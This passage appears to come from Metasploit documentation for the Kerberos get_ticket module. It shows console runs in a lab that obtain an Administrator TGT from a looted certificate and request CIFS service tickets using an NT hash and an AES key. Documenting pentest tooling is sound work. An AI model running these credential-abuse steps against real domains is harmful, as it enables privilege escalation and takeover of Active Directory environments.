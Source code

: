 ```msf
msf auxiliary(admin/kerberos/get_ticket) > run verbose=true rhosts=10.0.0.24 cert_file=/home/msfuser/.msf4/loot/20230124155521_default_10.0.0.24_windows.ad.cs_384669.pfx action=GET_TGT
[*] Running module against 10.0.0.24

[*] 10.0.0.24:88 - Getting TGT for Administrator@mylab.local
[+] 10.0.0.24:88 - Received a valid TGT-Response
[*] 10.0.0.24:88 - TGT MIT Credential Cache ticket saved to /home/msfuser/.msf4/loot/20230124155555_default_192.168.159.10_mit.kerberos.cca_702818.bin
[*] Auxiliary module execution completed
msf auxiliary(admin/kerberos/get_ticket) >
```

### Requesting a TGS

TGS with NT hash:

```msf
msf auxiliary(admin/kerberos/get_ticket) > run verbose=true rhosts=10.0.0.24 domain=mylab.local username=Administrator nthash=<redacted> action=GET_TGS spn=cifs/dc02.mylab.local
[*] Running module against 10.0.0.24

[+] 10.0.0.24:88 - Received a valid TGT-Response
[*] 10.0.0.24:88 - TGT MIT Credential Cache saved on /home/msfuser/.msf4/loot/20221104182601_default_10.0.0.24_mit.kerberos.cca_760650.bin
[+] 10.0.0.24:88 - Received a valid TGS-Response
[*] 10.0.0.24:88 - TGS MIT Credential Cache saved to /home/msfuser/.msf4/loot/20221104182601_default_10.0.0.24_mit.kerberos.cca_883314.bin
[*] Auxiliary module execution completed
msf auxiliary(admin/kerberos/get_ticket) > loot

Loot
====

host             service  type                 name  content                   info                                                                             path
----             -------  ----                 ----  -------                   ----                                                                             ----
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: krbtgt/mylab.local, username: administrator     /home/msfuser/.msf4/loot/20221104182601_default_10.0.0.24_mit.kerberos.cca_760650.bin
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: cifs/dc02.mylab.local, username: administrator  /home/msfuser/.msf4/loot/20221104182601_default_10.0.0.24_mit.kerberos.cca_883314.bin
```

TGS with encryption key:

```msf
msf auxiliary(admin/kerberos/get_ticket) > run verbose=true rhosts=10.0.0.24 domain=mylab.local username=Administrator AES_KEY=<redacted> action=GET_TGS spn=cifs/dc02.mylab.local
[*] Running module against 10.0.0.24

[+] 10.0.0.24:88 - Received a valid TGT-Response
[*] 10.0.0.24:88 - TGT MIT Credential Cache saved on /home/msfuser/.msf4/loot/20221104183040_default_10.0.0.24_mit.kerberos.cca_140502.bin
[+] 10.0.0.24:88 - Received a valid TGS-Response
[*] 10.0.0.24:88 - TGS MIT Credential Cache saved to /home/msfuser/.msf4/loot/20221104183040_default_10.0.0.24_mit.kerberos.cca_500387.bin
[*] Auxiliary module execution completed
```
